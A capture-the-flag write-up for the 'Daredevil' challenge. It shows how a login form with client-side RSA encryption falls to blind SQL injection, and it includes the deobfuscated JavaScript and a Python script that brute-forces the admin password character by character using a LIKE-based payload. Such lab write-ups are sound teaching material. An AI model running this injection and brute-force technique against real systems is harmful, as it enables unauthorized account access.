




### Daredevil



The challenge description made it obvious it was an SQLI challenge. Trying the basic payload makes it clear there's no logging in. 


Notably, trying an incorrect username/password returns a different output. Blind SQLI.


The request that was sent out is encrypted similarly to the mystique challenge.


Using an online js deobfuscator tool makes the js source code more readable.

```javascript
// Stripped to important part of code
function setPublicKey() {
    var key = `-----BEGIN PUBLIC KEY-----
  MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvKY9bxWNNQtoCukVNJuF
  Ap5sxruDlsoglCvKGwV92zke7P514+nFshua5m2FGXW3aLTUwy6Fh2CnH5sIz7EX
  MS3DvZ/VT8yJfRZtbTN8MdzynRrYJt6MofVP3fOjoxGi86rhKUV30tneOJxYT+tz
  izDWIlTL3dqC01gcpGbJTviWNTDyvYkXvV7ybo9krYz5GeU3X49unkyyKJ+IJA51
  2Zg254eb064SIsYLP60rHLoCgh0gws33wiqIFEIBVpMn8+V1cxB8iVLcNl88lWMN
  EgcqK/hKHFBkBCJ0YWit5Zdn19vA+kdC0G7TvpiKeB8wXX3Zcn5+TbCPaJCp2r08
  TwIDAQAB
  -----END PUBLIC KEY-----`;

  var jsEncryptedKey = new JSEncrypt()
  return jsEncryptedKey.setPublicKey(key), jsEncryptedKey
}

function encryptData(encrypt, data) {
  var dataToEncrypt = data;
  var encryptedData = encrypt.encrypt(dataToEncrypt);
  return encryptedData;
}

function sendEncryptedData(encryptedData) {
  var request = new XMLHttpRequest()
  request.open('POST', '/Flag', true)
  request.setRequestHeader(
    'Content-Type',
    'application/x-www-form-urlencoded'
  )
  request.onreadystatechange = function () {
    if (request.readyState === 4 && request.status === 200) {
      var message = document.getElementById('output')
      message.textContent = request.responseText
    }
  }

  request.send('data=' + encodeURIComponent(encryptedData))
}

function login() {
  var publicKey = setPublicKey(),
    username = document.getElementById('username').value,
    password = document.getElementById('password').value,
    credentials = username + ':' + password,
    encryptedData = encryptData(publicKey, credentials)
  sendEncryptedData(encryptedData)
}
```

The password of the admin user can be bruteforced using the like keyword `admin' and password like '%'--` 

Here's a quick python3 script to do that

```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5 as Cipher_PKCS1_v1_5
from base64 import b64decode,b64encode
import requests
import string

flag_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}_" #chars used in other flags
admin_pass = ""

def set_public_key():
    key = """
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvKY9bxWNNQtoCukVNJuF
    Ap5sxruDlsoglCvKGwV92zke7P514+nFshua5m2FGXW3aLTUwy6Fh2CnH5sIz7EX
    MS3DvZ/VT8yJfRZtbTN8MdzynRrYJt6MofVP3fOjoxGi86rhKUV30tneOJxYT+tz
    izDWIlTL3dqC01gcpGbJTviWNTDyvYkXvV7ybo9krYz5GeU3X49unkyyKJ+IJA51
    2Zg254eb064SIsYLP60rHLoCgh0gws33wiqIFEIBVpMn8+V1cxB8iVLcNl88lWMN
    EgcqK/hKHFBkBCJ0YWit5Zdn19vA+kdC0G7TvpiKeB8wXX3Zcn5+TbCPaJCp2r08
    TwIDAQAB
    """
    keyDER = b64decode(key)
    public_key = RSA.importKey(keyDER)
    cipher = Cipher_PKCS1_v1_5.new(public_key)
    return cipher

# Function to encrypt data
def encrypt_data(cipher, data):
    encrypted_data = cipher.encrypt(data.encode())
    return encrypted_data

# Function to send encrypted data
def send_encrypted_data(encrypted_data):
    response = requests.post(
        url='https://afr1cacyb3rfe5t-daredevil.chals.io/login',  # Chall url
        headers={'Content-Type': 'application/x-www-form-urlencoded'},
        data={'data': b64encode(encrypted_data)}
    )
    if response.status_code == 200:
        return response.text
    else:
        print(f"Request failed with status code: {response.status_code}")
        print(response.text)
        print(admin_pass)
        exit(1)

# Function to handle login
def login(username, password):
    cipher = set_public_key()
    credentials = f"{username}:{password}"
    encrypted_data = encrypt_data(cipher, credentials)
    output = send_encrypted_data(encrypted_data)
    return output

# Example usage
while True:
    for CHAR in flag_chars:
        output = login(f"admin' and password like '{admin_pass}{CHAR}%'--", "password")
        if "Login for" in output:
            admin_pass = admin_pass + CHAR
            print(admin_pass)
            break
```
